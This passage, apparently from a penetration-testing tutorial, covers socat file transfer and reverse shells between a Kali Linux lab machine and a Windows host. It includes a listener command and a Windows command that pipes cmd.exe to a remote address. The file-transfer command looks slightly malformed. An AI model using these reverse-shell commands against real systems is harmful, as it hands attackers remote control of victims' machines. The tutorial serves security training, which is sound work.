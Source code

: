 From Kali Linux:

```bash
socat TCP4:1308 file:secret.txt, create
```

`file:` specifies the local file name to save the file to computer, and `create` specifies
that a new file will be created

![](./img/Chapter4/21.png)

### **2.3. Socat Reverse Shells**

The Windows machine will act as a server and the Kali Linux machine will act as a client. The Windows machine will send the command shell to the Kali Linux machine.

On the Kal Linux machine, we will set up a Socat listener on port 1307. We will use -d option to increase verbosity.

```bash
socat -d -d TCP4-LISTEN:1307 STDOUT
```

On the Windows machine, we will use Socat to connect to the Kali Linux machine and send the command shell through TCP port 1307.

```powershell
socat TCP4:192.168.190.133:1307 EXEC:'cmd.exe',pipes
```

The `pipes` option is to create a pair of pipes for interprocess communication.

![](./img/Chapter4/22.png)

![](./img/Chapter4/23.png)
